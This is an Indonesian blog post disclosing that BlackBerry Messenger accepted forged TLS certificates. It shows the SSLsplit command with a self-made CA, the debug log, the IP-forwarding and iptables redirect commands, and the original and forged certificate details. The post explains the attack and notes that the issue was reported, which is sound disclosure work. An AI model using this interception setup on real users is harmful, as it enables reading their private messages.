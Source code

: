 Title: BlackBerry Messenger Rentan Mitm Attack
Date: 2017-01-12 13:19
Author: Dhani Setiawan
Category: Networking
Slug: bbm-mitm
Status: Published
Comments: yes

Awalnya dari saya baca-baca tentang HSTS (HTTP Strict Transport Security). HSTS ini metode buat mencegah Man-in-the-middle (MitM) attack di komunikasi secure SSL/TLS. 

Salah satu cara attack komunikasi SSL/TLS sebelum adanya HSTS ini biasanya pakai protocol downgrade. 
Caranya, si attacker secara diam-diam menempatkan diri di tengah-tengah komunikasi SSL antara client sama server, terus dia meng-interupsi komunikasi antara client ke server.  
Di sini attacker bisa downgrade komunikasi client ke server yang awalnya secure pakai SSL didowngrade ke plain HTTP. 
Kalau user kurang teliti bisa tanpa sadar masuk jebakan ini karena tidak ada warning apa-apa di browser.

HSTS fungsinya mencegah tipe MitM ini. Caranya, server menginformasikan ke client bahwa komunikasi ke server ini harus pakai SSL/TLS. Jadinya kalau protokol di-downgrade 
ke plain HTTP koneksi bakal di terminate dan client menolak berkomunikasi sama server pakai plain HTTP.

Kelemahannya, koneksi yang pertama kali ke server yang belum pernah diakses tetap tidak terproteksi jadi tetap ada kemungkinan protokol downgrade di sini. 
Karena itu client serperti browser Firefox atau Chrome sudah dimasukkan list situs-situs yang dikenal pakai HSTS supaya koneksi ke situs-situs ini biarpun pertama kalinya tetap 
terproteksi.

<br />
Begitu HSTS ini mulai diaplikasikan, metode attack SSL/TLS downgrade jadi tidak bisa lagi dipakai di server yang ada HSTS nya.

Karena itu tes HSTS saya coba _eavesdropping_ komunikasi bukan dengan cara downgrade SSL tapi pakai cara redirect komunikasi secure nya. 
Pakai cara ini komunikasi client tetap pakai SSL/TLS cuma CA atau _Certificate Authority_ dipalsukan pakai CA buatan sendiri.

Ini gambaran bagaimana gambaran MitM komunikasi SSL/TLS.

<div class="aimg">
        <img src="//devnull.web.id/images/networking/mitm.png" alt="Man-in-the-middle attack" title="Man-in-the-middle attack" />
</div>


Tool yang saya pakai namanya SSLsplit. Metodenya, attacker ada di tengah-tengah komunikasi fungsinya jadi client sekaligus server. Jadi client buat ambil data dari server yang sebenarnya, jadi server buat meneruskan data ke client yang sebenarnya.

Pas client kirim message _client hello_ waktu SSL handshake, attacker juga kirim _client hello_ ke server. Berikutnya, server kirim _server hello_ sama _certificate_. Attacker ambil informasi dari digital certificate ini, terus dia buat _certificate signing request_ yang informasinya sama seperti yang asli, Subject DN, Common Name, dll semuanya disamakan. CSR yang sudah digenerate ini terus di-_sign_ pakai CA buatan sendiri dan jadilah digital certificate yang sama dengan certificate aslinya.

Certificate buatan ini terus dikirim ke client. Client coba verifikasi validitas certificate ini dan normalnya, kalau client itu bagus dia langsung terminate komunikasi karena CA yang menandatangani certificate itu tidak ada di trusted database. Client modern semacam Firefox atau Google Chrome pasti muncul warning karena certificate tidak trusted.

Nah pas waktu tes malah saya secara tidak sengaja temukan BlackBerry Messenger atau BBM dia vulnerable sama attack jenis MitM, tepatnya SSL Man-in-the-middle attack.

Problemnya, client BBM dia tidak ada warning yang muncul, komunikasi juga tidak di-stop biarpun certificate dipalsukan, chatting tetap bisa jalan. Parahnya lagi, BBM bukan seperti WhatsApp atau Telegram yang pakai end-to-end encryption, jadi ya pesan chatting bisa dibaca.

Ini hasil percobaan saya:

Pertama, client BBM sudah yang paling baru dari Google Play Store.

<div class="aimg">
        <img src="//devnull.web.id/images/networking/bbm-version.png" alt="BBM version" title="BBM version" />
</div>

Saya pakai port 8443 dan jalankan SSLsplit mode debug.

    sslsplit -D \
    -S /home/dhani/void/ \
    -c /home/dhani/vpn/keys/ca.crt \
    -k /home/dhani/vpn/keys/ca.key \
    https 0.0.0.0 8443

- ``-D``: Debug.
- ``-S``: Directory tempat log. Log komunikasi ditulis di direktori ini.
- ``-c``: CA certificate
- ``-k``: CA key
- ``https 0.0.0.0 8443``: Buat socket dan bind semua ip address di tcp port 8443. ``https `` berasumsi bahwa ini komunikasi http dan SSLsplit secara otomatis bisa men-_decode_ log ke http. Selain ``https`` bisa pakai ``ssl`` sama ``tcp``.

<br />

    Generated RSA key for leaf certs.
    SSLsplit 0.5.0 (built 2017-01-10)
    Copyright (c) 2009-2016, Daniel Roethlisberger <daniel@roe.ch>
    http://www.roe.ch/SSLsplit
    Build info: V:GIT
    Features: -DHAVE_NETFILTER
    NAT engines: netfilter* tproxy
    netfilter: IP_TRANSPARENT SOL_IPV6 !IPV6_ORIGINAL_DST
    Local process info support: no
    compiled against OpenSSL 1.0.1t  3 May 2016 (1000114f)
    rtlinked against OpenSSL 1.0.1t  3 May 2016 (1000114f)
    OpenSSL has support for TLS extensions
    TLS Server Name Indication (SNI) supported
    OpenSSL is thread-safe with THREADID
    Using SSL_MODE_RELEASE_BUFFERS
    SSL/TLS protocol availability: ssl3 tls10 tls11 tls12 
    SSL/TLS algorithm availability: RSA DSA ECDSA DH ECDH EC
    OpenSSL option availability: SSL_OP_NO_COMPRESSION SSL_OP_NO_TICKET SSL_OP_ALLOW_UNSAFE_LEGACY_RENEGOTIATION SSL_OP_DONT_INSERT_EMPTY_FRAGMENTS SSL_OP_NO_SESSION_RESUMPTION_ON_RENEGOTIATION SSL_OP_TLS_ROLLBACK_BUG
    compiled against libevent 2.0.21-stable
    rtlinked against libevent 2.0.21-stable
    4 CPU cores detected
    SSL/TLS protocol: negotiate
    proxyspecs:
    - [0.0.0.0]:8443 ssl|http netfilter
    Loaded CA: '/C=ID/ST=Kalimantan Timur/L=Balikpapan/O=DevNull/OU=DevNull/CN=DevNull Authority/name=ca/emailAddress=dhani.stx@gmail.com'
    Created self-pipe [r=3,w=4]
    Created chld-pipe [r=5,w=6]
    Created socketpair 0 [p=7,c=8]
    Created socketpair 1 [p=9,c=10]
    Created socketpair 2 [p=11,c=12]
    Using libevent backend 'epoll'
    Event base supports: edge yes, O(1) yes, anyfd no
    Received privsep req type 03 sz 9 on srvsock 7
    Received privsep req type 00 sz 1 on srvsock 7
    Inserted events:
    Received privsep req type 00 sz 1 on srvsock 11
      0x1f6af50 [fd 6] Read Persist
      0x1f6b470 [fd 7] Read Persist
      0x1f6ad88 [fd 5] Read Persist
      0x1f65140 [fd 3] Signal Persist
      0x1f6b6b0 [fd 1] Signal Persist
      0x1f6b7e0 [fd 2] Signal Persist
      0x1f6b910 [fd 13] Signal Persist
      0x1f6bae0 [fd 10] Signal Persist
    Initialized 8 connection handling threads
    Started 8 connection handling threads
    Starting main event loop.

Di output line ``Loaded CA`` itu informasi CA yang saya pakai.

Selanjutnya, parameter kernel untuk routing perlu diaktifkan sama nat tcp port 443 ke port 8443

    echo 1 >/proc/sys/net/ipv4/ip_forward
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8443

Masalah bagaimana traffic packet IP bisa masuk ke interface dan di-_capture_ tidak saya bahas karena tujuan tulisan ini buat 
informasi ke user BBM sekligus pembuktian kalau BBM bisa disadap, bukan bagaimana cara attack MitM.

Nah waktu buka BBM, di output debug SSLsplit ada informasi certificate yang original sama yang buatan seperti ini.

    ===> Original server certificate:
    Subject DN: /C=CA/ST=Ontario/L=Waterloo/O=BlackBerry Ltd/OU=IT/CN=*.bbm.blackberry.com
    Common Names: *.bbm.blackberry.com/*.bbm.blackberry.com
    Fingerprint: 23:25:C7:DA:28:27:F9:54:AE:09D8:AD:C3:C9:9C:61:B5:3F:09:95
    Certificate cache: HIT
    ===> Forged server certificate:
    Subject DN: /C=CA/ST=Ontario/L=Waterloo/O=BlackBerry Ltd/OU=IT/CN=*.bbm.blackberry.com
    Common Names: *.bbm.blackberry.com/*.bbm.blackberry.com
    Fingerprint: E6:C8:E4:AB:EC:C3:2D:43:EA:D035:2C:30:98:E0:E6:9C:DC:26:81

Semuanya sama kecuali signature, atau fingerprint.

Saya tidak tau apa BBM ini verifikasi CA sama certificate fingerprint atau tidak, yang jelas komunikasi tidak ada interupsi.

Ini tes chatting BBM

<div class="aimg">
        <img src="//devnull.web.id/images/networking/bbm.png" alt="Chat BBM" title="Chat BBM" />
</div>

Dan ini log SSLsplit.

<div class="aimg">
        <img src="//devnull.web.id/images/networking/sslsplit.png" alt="SSLsplit" title="SSLsplit" />
</div>

Problem ini, saya sudah kirim email ke support BlackBerry, semoga saja mereka perbaiki.   
Saran saya sebelum vulnerability ini hilang, sebaiknya tidak kirim informasi sensitif lewat BBM. Lewat WhatsApp atau Telegram saja yang lebih secure.

Saya tidak tau apa lembaga semacam ID-SIRTII atau ID-CERT mereka juga lihat isi IP payload atau tidak, kalau iya kan berarti mereka bisa baca chatting pengguna BBM di Indonesia.

Wheeww..!!

<br />

**Artikel berkaitan:**  
[Tentang SSL/TLS + sertifikat TLS gratis dari Let's Encrypt](//devnull.web.id/misc/ssl-tls-letsencrypt.html)  
_Pembahasan yang lumayan komprehensif tentang Public Key Infrastructure atau PKI_
